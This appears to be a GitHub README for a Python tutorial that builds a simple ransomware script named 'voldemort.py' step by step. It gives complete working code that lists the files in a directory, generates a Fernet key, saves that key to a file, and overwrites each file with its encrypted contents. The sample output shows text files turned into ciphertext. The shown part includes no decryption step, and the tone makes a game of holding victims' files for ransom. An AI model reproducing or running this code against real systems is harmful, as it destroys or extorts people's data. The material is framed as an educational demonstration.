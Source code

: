 # Ransomware

This is an example application featured in NetworkChuck's <a href="https://youtu.be/UtMMjXOlRQc">Python Malware Tutorial</a>.

### Instructions

**Step 1:**
Make a folder called ``ransomware`` and create a few random ``.txt`` files with some silly phrases in them:

<pre>
<code>$ mkdir ransomware
$ cd ransomware
$ echo "This is a file" > file.txt
$ echo "Leave me alone" > file2.txt
$ echo "Another one" > hey.txt
$ echo "One more time" > pleasedonthurtme.txt</code>
</pre>

Now let's hold these files for ransom! Let's encrypt those suckers right now! Here we go:

<pre>
<code>$ nano voldemort.py</code>
</pre>

Write this code in the following ``voldemort.py`` file:

<details>
<summary>💰 How to Hold These Files for Ransom:</summary>

```python
#!/usr/bin/env python3
import os

# Let's find some files!
files = []

for file in os.listdir():
    if file == "voldemort.py":
        continue
    if os.path.isfile(file):
        files.append(file)

print(files)

```
</details>

When you first run ``voldemort.py`` in your terminal, you should see the following output:

<pre>
<code>$ python voldemort.py
['file2.txt', 'file.txt', 'hey.txt', 'pleasedonthurtme.txt']</code>
</pre>

**Step 2:**
Now let's encrypt those files! Start it off by running the following command:

<pre>
<code>$ nano voldemort.py</code>
</pre>

Add more code to ``voldemort.py``:

<details>
<summary>🔒 How to Encrypt These Files:</summary>

```python
#!/usr/bin/env python3
import os
from cryptography.fernet import Fernet

# Let's find some files!
files = []

for file in os.listdir():
    if file == "voldemort.py":
        continue
    if os.path.isfile(file):
        files.append(file)

print(files)

key = Fernet.generate_key()

print(key)

```
</details>

When you next run ``voldemort.py``, you should see the following output for your key:

<pre>
<code>$ python voldemort.py
['file2.txt', 'file.txt', 'hey.txt', 'pleasedonthurtme.txt']
b'nDcZ_UIVfpECWw2ezj2T4RKHg7i_7ARgMtHXEVxarfQ='</code>
</pre>

**Step 3:**
Obviously, we don't want to print our key right out there in the open where the user can see it. We want the user to give us money, but we do need to save the key into another file for safety so we can unlock the files later *after* we get paid 😉:

<pre>
<code>$ nano voldemort.py</code>
</pre>

Add more code to ``voldemort.py``:

<details>
<summary>🔑 How to Save the Key:</summary>

```python
#!/usr/bin/env python3
import os
from cryptography.fernet import Fernet

# Let's find some files!
files = []

for file in os.listdir():
    if file == "voldemort.py":
        continue
    if os.path.isfile(file):
        files.append(file)

print(files)

key = Fernet.generate_key()

with open("thekey.key", "wb") as thekey:
    thekey.write(key)

```
</details>

Run ``voldemort.py`` and you should see the following output:

<pre>
<code>$ python voldemort.py
['file2.txt', 'file.txt', 'hey.txt', 'pleasedonthurtme.txt']</code>
</pre>

Wait, where is ``thekey.key``? Don't worry! It is still hidden and we can finally view it by entering the following commands:

<pre>
<code>$ ls
file.txt             hey.txt              thekey.key
file2.txt            pleasedonthurtme.txt voldemort.py
$ cat thekey.key
l-4zrPy0VkR8pDJnGvsxyy2UEXGiV0AKkpEQR-fzD14=%</code>
</pre>

**Step 4:**
Now this is where things start to get interesting. We will be pushing our ``thekey.key`` file into our code for ``voldemort.py`` so all the other files will be permanently encrypted. In other words, the poor user can now only see those files as gibberish:

<pre>
<code>$ nano voldemort.py</code>
</pre>

Add the following code to ``voldemort.py``:

<details>
<summary>👁️👄👁️ How to Make These Files Come Out as Garble:</summary>

```python
#!/usr/bin/env python3
import os
from cryptography.fernet import Fernet

# Let's find some files!
files = []

for file in os.listdir():
    if file == "voldemort.py" or file == "thekey.key":
        continue
    if os.path.isfile(file):
        files.append(file)

print(files)

key = Fernet.generate_key()

with open("thekey.key", "wb") as thekey:
    thekey.write(key)

for file in files:
    with open(file, "rb") as thefile:
        contents = thefile.read()
    contents_encrypted = Fernet(key).encrypt(contents)
    with open(file, "wb") as thefile:
        thefile.write(contents_encrypted)

```
</details>

Make one quick goodbye to each ``.txt`` file before they get encrypted by your mom:

<pre>
<code>$ cat file.txt
This is a file
$ cat file2.txt
Leave me alone
$ cat hey.txt
Another one
$ cat pleasedonthurtme.txt
One more time</code>
</pre>

Run ``voldemort.py`` and you should see the following output:

<pre>
<code>$ python voldemort.py
['file2.txt', 'file.txt', 'hey.txt', 'pleasedonthurtme.txt']</code>
</pre>

This is the moment we've all been waiting for. Now all these ``.txt`` files have been left in ruins 😈:

<pre>
<code>$ cat file.txt
gAAAAABo9_vsmrW0ocPft7966tBWfmDGPGuULoBZLck3RAbj2MPsLUWLoErkInZD5hWc4MVuuBzs99_EzxOvVCckm1kSqq27hhhO0Atscgp6N4Y73BcN6nIJ9hV0Lf6TcccX0b4NQxdOHP0vFXQ4wHA8eipTaASBhfl_02kekjYlbtDo5fOhWPnO8mDwYHcrxrblkOQwmvhm9_kwUKShDc4Ign2bk1D72A==%
$ cat file2.txt
gAAAAABo9_vsnw_nYyQ_29Z-Ol9W322Qf6hScuHtGS6YgB8A1mik3dlDoKi11PrfFGDIoDr22ddLw-yeT3D-dulUuvQBz-t0LB02vJhdmjJFBgLUCYl0FajFaIyYXb31dkrUlYLoSuG7FPchBeT4EG6-1lllQFbV9QBQlKsPXNZOLU6j551Q54Kg4XhpHPTEuym02dZaC0YOIn7B5hFFj8EtROpXKqqDHw==%
$ cat hey.txt
gAAAAABo9_vsLnZX08uVJR-veRrK-SNBhBLB3oLAhxl850VmOYnSGTkjLoPmHzNGKmjbZNBcOMMUUxLUKpN50_XdErY_C-TmzgMD_O6pzhllzdzZ-kYL8zKEgDI7VSAsSTsRkY12-kNpcLuQnvQz_7KDCqFXE6N-605rrYo0tQr2gd5RIp2_IoyHJBWT1etHcMSjkJ3u8IXLhcf3_h6-9RHkMlRTFkxFFQ==%
$ cat pleasedonthurtme.txt
gAAAAABo9_vsBkcYTvBVAh46_xe24bRQtPJLbmbZj2RQhzY6XFW5NtPQZukDfkAkzyH-KDu5rrnAhd1dZjGKjtNM7VR3U_DZs8-FtHKCU2MbjfpTeA59CJel17U577amMDzeiJV5RWF0L4CTXBwR1a8_4TRdTKNReT7DP4nzIc73iprGF9qqjQbPOJJmBVofby7mbYmRJCC9F53KMvd-NM9xFhyfu-q8uA==%</code>
</pre>
